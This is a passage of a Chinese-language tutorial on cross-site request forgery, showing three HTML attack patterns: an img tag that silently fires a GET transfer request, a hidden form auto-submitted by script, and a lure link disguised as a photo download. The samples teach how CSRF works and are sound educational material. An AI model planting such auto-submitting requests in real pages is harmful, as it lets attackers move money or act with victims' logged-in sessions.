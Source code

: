 CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”，是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求。简单来讲，**CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事**。

通常当用户打开了黑客的页面后，黑客有三种方式去实施 CSRF 攻击。

### 4.1 自动发起GET请求

```html
<!DOCTYPE html> 
<html> 
   <body> 
      <h1> 黑客的站点：CSRF 攻击演示 </h1> 
         <img src="https://time.geekbang.org/sendcoin?user=hacker&number=100"> 
   </body> 
</html>
```

在这段代码中，黑客将转账的请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源。当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求。

### 4.2 自动发起POST请求

```html
<!DOCTYPE html>
<html>

<body>
  <h1> 黑客的站点：CSRF 攻击演示 </h1>
  <form id="hacker-form" action="https://time.geekbang.org/sendcoin" method="POST">
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>

  <script>
    document.getElementById('hacker-form').submit();
  </script>
</body>

</html>
```

在这段代码中，我们可以看到黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口。当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作。

### 4.3 引诱用户点击链接

除了自动发起 Get 和 Post 请求之外，还有一种方式是诱惑用户点击黑客站点上的链接，这种方式通常出现在论坛或者恶意邮件上。黑客会采用很多方式去诱惑用户点击链接，示例代码如下所示：

```html
<div>
    <img src="http://images.xuejuzi.cn/1612/1_161230185104_1.jpg">
    <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_b">点击下载美女照片</a>
</div>
```

**和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击**。
